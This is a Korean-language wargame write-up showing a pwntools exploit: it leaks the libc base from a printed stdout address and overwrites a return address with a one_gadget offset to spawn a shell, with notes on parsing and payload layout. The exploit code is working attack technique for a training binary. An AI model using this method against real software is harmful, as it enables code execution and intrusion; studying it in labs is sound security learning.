 ## 1. Leak libc base

```
# [1] Leak libc base
p.recvuntil(b'stdout: ')
libc_stdout = int(p.recvline()[:-1], 16) # b'0x..' 형식으로 출력되기 때문에 16진수로 해석 후 int로 변환해줘야함(u64는 b'\x--\x--' 형식에만 사용 가능)
libc_base = libc_stdout - libc.symbols['_IO_2_1_stdout_']

# 아래의 두 stdout으로는 안됨 (readelf -s 로 찾은거)
# libc_base = libc_stdout - libc.symbols['stdout']
# libc_base = libc_stdout - 0x3c5708
```

`stdout: ` 이 출력된 후 나오는 `stdout`이 매핑된 메모리 주소를 `libc_stdout`에 저장한다.

이때, `printf("stdout: %p\n", stdout);` 으로 출력하기 때문에 `0x--` 형식으로 출력되고, 뒤에 `\n`이 붙어서 나오기 때문에 

먼저 `p.recvline()[:-1]` 으로 `\n`을 날려주고, `int(p.recvline()[:-1], 16)`을 통해 입력 받은 `0x--` 형식의 `string`을 16진수로 해석하여 `int`로 변환해줘야 한다.

`fho` 워게임 문제의 바이너리에서처럼 `printf("%d")` 형식이나 `printf(%lld)`로 출력을 받았다면 바로 `u64()`로 언패킹이 가능하지만, `%p` 로 받았을 때는 무조건 16진수로 해석 후 `int`로 변환해줘야 한다.

그리고, 구한 `libc_stdout`에서 `stdout`의 `offset`인 `libc.symbols['_IO_2_1_stdout_']`을 빼주어서 `libc_base`를 구할 수 있다.

`libc.symbols['stdout']`이나, `readelf -s`로 구한 `offset`을 빼주면 안되는 것을 잘 기억하자.

## 2. Overwrite return address

```
# [2] Overwrite return address
# 주석이 안된 2개의 가젯만 main이 return한 후 return address에 갔을 때 조건을 만족함
og = libc_base + 0x45216 # rax == NULL
# og = libc_base + 0x4526a # [rsp+0x30] == NULL
# og = libc_base + 0xf02a4 # [rsp+0x50] == NULL
og = libc_base + 0xf1147 # [rsp+0x70] == NULL

# stack은 주소 방향이 반대이므로, 리틀엔디언 잘 생각하기
payload = b'a' * 0x18       # msg(0x10) + buf(0x8)
payload += b'\x00' * 0x8    # check(0x8)
payload += b'a' * 0x8       # sfp(0x8)
payload += p64(og)[:-2]     # return address(0x8) : [:-2]를 해도 어쩌피 뒤에 b'\x00\x00'은 알아서 짤려서 안해줘도 되긴 함

# 아래처럼 하면 반대 방향으로 들어감
# payload = p64(og)[:-2]
# payload += b'a' * 0x8
# payload += b'\x00' * 0x8
# payload += b'a' * 0x18

p.send(payload)
p.interactive()
```
